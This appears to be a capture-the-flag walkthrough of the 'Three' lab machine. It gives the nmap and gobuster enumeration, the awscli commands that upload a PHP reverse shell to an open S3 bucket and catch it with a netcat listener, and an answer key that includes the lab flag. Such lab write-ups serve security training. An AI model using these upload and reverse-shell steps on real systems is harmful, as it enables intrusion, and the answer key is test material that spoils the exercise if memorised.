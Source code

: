 # Three

> IP: [10.129.227.248]

## NOTES / STEPS

1. Deploy Machine
2. NMAP
   1. > nmap -sC -sV 10.129.227.248 -oN init_scan
      1. Port 22 -> ssh -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
      2. Port 80 -> http -> Apache httpd 2.4.29 ((Ubuntu))
3. HTTP
   1. Navigate to website
      1. This looks to be a site for a musical band with tour dates and merchandise
      2. We see potential users
         1. John Smith
         2. Shane Marks
         3. Jim Tailer
      3. We also see an email `mail@thetoppers.htb` - this has a domain
         1. Lets add this to our /etc/hosts file and then do some enumeration
      4. SOURCE-CODE
         1. Nothing in here stands out
   2. GOBUSTER
      1. Look for subdomains
         1. > gobuster dns -d thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/shubs-subdomains.txt
            1. Nothing
         2. > gobuster dns -d thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
            1. Nothing
         3. > gobuster vhost -u http://thetoppers.htb/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
            1. After some research we needed to change to vhost mode and --append-domain
            2. RESPONSE: `Found: s3.thetoppers.htb Status: 404 [Size: 21]`
               1. The s3 means there is an amazon s3 bucket
4. AMAZON S3
   1. Now lets connect to the s3 bucket using the awscli
      1. First we need to configure the aws client
         1. > aws configure
   2. Looking up the cli documentation we see that we can connect to the s3 bucket with the url by using --endpoint-url
      1. > aws s3 ls --endpoint-url http://s3.thetoppers.htb
         1. ERROR: Could not connect to the endpoint URL: "http://s3.thetoppers.htb/"
            1. We need to add the new subdomain we found to our /etc/hosts file
      2. > aws s3 ls --endpoint-url http://s3.thetoppers.htb
         1. RESPONSE: 2024-02-07 10:17:21 thetoppers.htb
         2. So we need to add thetoppers.htb to our s3 url
      3. > aws s3 ls --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb
         1. .htaccess
         2. index.php
            1. In here we see it is running `PHP` as our index file is .php
            2. Since it is running php maybe we can upload a revshell
   3. UPLOAD
      1. Looking at the documentation we see that we can upload to the bucket using the cp command
         1. > aws s3 cp ./revshell.php --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb
      2. Now lets navigate to the /revshell.php in our browser with a netcat listener up
         1. > nc -lnvp 1234
            1. SUCCESS
5. ENUMERATION
   1. Search for the flag
      1. > find / -name flag.txt 2>/dev/null
         1. /var/www/flag.txt
      2. > cat flag.txt
         1. `a980d99281a28d638ac68b9bf9453c2b`

## QUESTIONS

1. How many TCP ports are open?
   1. `2`
2. What is the domain of the email address provided in the "Contact" section of the website?
   1. `thetoppers.htb`
3. n the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?
   1. `/etc/hosts`
4. Which sub-domain is discovered during further enumeration?
   1. `s3.thetoppers.htb`
5. Which service is running on the discovered sub-domain?
   1. `amazon s3`
6. Which command line utility can be used to interact with the service running on the discovered sub-domain?
   1. `awscli`
7. Which command is used to set up the AWS CLI installation?
   1. `aws configure`
8. What is the command used by the above utility to list all of the S3 buckets?
   1. `aws s3 ls`
9. This server is configured to run files written in what web scripting language?
   1. `php`
10. Submit root flag
   1. `a980d99281a28d638ac68b9bf9453c2b`  

